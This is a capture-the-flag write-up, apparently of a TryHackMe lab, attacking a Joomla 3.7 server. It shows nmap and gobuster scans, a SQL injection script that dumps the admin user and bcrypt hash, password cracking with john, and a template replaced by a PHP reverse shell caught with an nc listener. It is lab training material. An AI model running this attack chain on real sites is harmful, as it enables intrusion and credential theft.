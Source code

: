 # Enumeration
Using `nmap` to scan the target
```python
nmap -T4 -sV -vv -O -A -Pn  {IP} -oN nmap.txt
```
I outputed the scan result to `nmap.txt` file for later reviewing.
This is a brief of the result:
```note
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   syn-ack ttl 63 MariaDB 10.3.23 or earlier (unauthorized)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
```
Open Ports:
- 22 (ssh)
- 80 (http)
- 3306 (mysql)
  Also, this is a quick look at the target via `port 80`

![Image](https://github.com/user-attachments/assets/c728a98c-4dfb-4eea-96a9-c389c58b32a7)

After reading the article, the answer for Task 1 is `spiderman` without the `-`
Then I noticed the login section on the right of the post, I tried using some SQLi queries to enter but gaining nothing.
Then I used `gobuster` to find all the hidden path of this site
```python
gobuster dir -u "http://{IP}" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.js,.txt -t 1000 2>/dev/null
```
And obtaining some interesting information
```note
/images               (Status: 301) [Size: 235] [--> http://10.10.73.116/images/]
/index.php            (Status: 200) [Size: 9278]
/includes             (Status: 301) [Size: 237] [--> http://10.10.73.116/includes/]
/components           (Status: 301) [Size: 239] [--> http://10.10.73.116/components/]
/cache                (Status: 301) [Size: 234] [--> http://10.10.73.116/cache/]
/language             (Status: 301) [Size: 237] [--> http://10.10.73.116/language/]
/libraries            (Status: 301) [Size: 238] [--> http://10.10.73.116/libraries/]
/robots.txt           (Status: 200) [Size: 836]
/tmp                  (Status: 301) [Size: 232] [--> http://10.10.73.116/tmp/]
/layouts              (Status: 301) [Size: 236] [--> http://10.10.73.116/layouts/]
/administrator        (Status: 301) [Size: 242] [--> http://10.10.73.116/administrator/]
/htaccess.txt         (Status: 200) [Size: 3005]
/README.txt           (Status: 200) [Size: 4494]

```
I reckoned that I should check all the path that came with status `200` manually.
## Accessing  `/README.txt`
![Image](https://github.com/user-attachments/assets/eabd68bb-ac06-40d5-93ee-b4356df0de9e)
## Accessing   `/robots.txt`
![Image](https://github.com/user-attachments/assets/816cd781-e6c1-4f77-aaf7-83a0c4e73fd1)
## Accessing  `/htaccess.txt`
![Image](https://github.com/user-attachments/assets/e2820de9-5869-4c82-9f2e-88302f68d2b5)
Nothing special but I knew that the version of Joomla is 3.7.x for the target, then I assumed that the version is 3.7.0-9 about that range
Therefore, I tried `/administrator/` path which leaded me to this site
![Image](https://github.com/user-attachments/assets/d228287f-07ca-4189-a813-eb51ed7d2a9d)
Then I tried to find some credentials to login
and saw this hint:
![Image](https://github.com/user-attachments/assets/f2acf5a4-ac19-456d-9716-dd7c8a29b0d0)
So I Knew that ther http-generator : `joomla 3.7.x` then I just looked for some python vulnerabilities related to this generator and ended up with this
[joomblah.py](https://raw.githubusercontent.com/teranpeterson/Joomblah/refs/heads/master/joomblah.py) 
## Reference
[Joomblah](https://github.com/teranpeterson/Joomblah/tree/master)
So I had my SQLi python and carefully learned how to use it with `python3`
```python
python3 joomblah.py  "http://{ip}/index.php/component/users/\?view\=login\&Itemid\=101"
```
Obtaining the result 
```
Fetching CSRF token
Testing SQLi
Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
Extracting sessions from fb9j5_session
```
I had username :`jonah`, and hashed password :`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`
I acctually did not know what type of this hash is (I saved the hashed password into `password.txt` file) and just ended up coping and pasting to google for searching and found this post on [reddit](https://www.reddit.com/r/HowToHack/comments/m9w0at/why_isnt_john_cracking_this_bcrypt_hash/)
But I wanted to find it by myself then I kept searching, I found this tool called [Hash Type Identifier](https://hashes.com/en/tools/hash_identifier)
![Image](https://github.com/user-attachments/assets/5fd1c549-0149-43a1-9f06-d762a5d5ed48)
Then I could ensure that the hash type is `bcrypt`, moving next I used `john` do decrypt the hash
```python
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
and I found the password, by the way, I got the username too, therefore, I attempted to login.
![Image](https://github.com/user-attachments/assets/85c69d85-5e4c-4ca6-911b-010fed173ee8)
![Image](https://github.com/user-attachments/assets/c8290d57-500d-49ad-b537-b5ee8d8a9235)
![Image](https://github.com/user-attachments/assets/75d04eed-e4a1-47a7-83f1-b45c2dcd10db)
# Boom, Login Successfully~~!!! 
Then access to this path, replace `index.php` of `beez3` with the [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell)
![Image](https://github.com/user-attachments/assets/f258c8e7-bc96-43fc-b34c-10e1eeecf88d)
Remeber to set up a listener ( my case is port 1234) first
```note
nc -lvnp 1234
```
Then accessing the template `beez3` index.php to trigger the reverse-shell
```note
http://{ip}/templates/beez3/index.php
```
```python
listening on [any] 1234 ...
connect to [10.23.99.113] from (UNKNOWN) [10.10.5.71] 45380
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:05:37 up 49 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```


